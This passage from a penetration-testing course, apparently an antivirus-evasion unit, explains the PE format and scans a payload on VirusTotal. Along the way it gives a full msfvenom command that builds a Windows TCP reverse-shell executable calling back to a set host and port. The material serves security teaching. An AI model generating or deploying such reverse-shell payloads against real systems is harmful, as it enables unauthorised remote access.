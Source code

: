 To demonstrate the effectiveness of various antivirus products, we will start by scanning a popular _Metasploit_ payload. Using _msfvenom_, we will generate a standard [_Portable Executable_](https://en.wikipedia.org/wiki/Portable_Executable) (PE) file containing our payload. In this case we will use a simple TCP reverse shell.

The PE file format is used on Windows operating systems for executable and object files. The PE format represents a Windows data structure that details the information necessary for the [_Windows Loader_](https://en.wikipedia.org/wiki/Loader_(computing)) to manage the wrapped executable code including required dynamic libraries, API import and export tables, etc.

Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

> Listing 5 - Generating a malicious PE containing a meterpreter shell.

Next, we will run a virus scan on this executable. Rather than installing many antivirus applications on our local machine, we can upload our file to [_VirusTotal_](https://www.virustotal.com/#/home/upload), which will scan it to determine the detection rate of various AV products.

VirusTotal is convenient, but it generates a hash along with storing the original file for each unique submission. The submitted files along with the metadata are then shared with all participating AV vendors. As such, take care when submitting sensitive payloads as the hash is considered public from the time of first submission.

The results of this scan are listed below.

![Figure 1: Virustotal results on the msfvenom payload.](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/9a05cfc8fe2cd0438b9b48b03c79ed23-antivirus_evasion_01b.png)

Figure 1: Virustotal results on the msfvenom payload.

We'll notice in our results that many antivirus products determined our file is malicious based on the different detection mechanisms we have illustrated in this section.

In this Learning Unit, we have explored the different components that constitute a modern AV and covered the various strategies adopted to detect malicious software.

In the next Learning Unit, we are going to make use of this knowledge and learn the different mechanisms that enable attackers to evade antivirus detections.
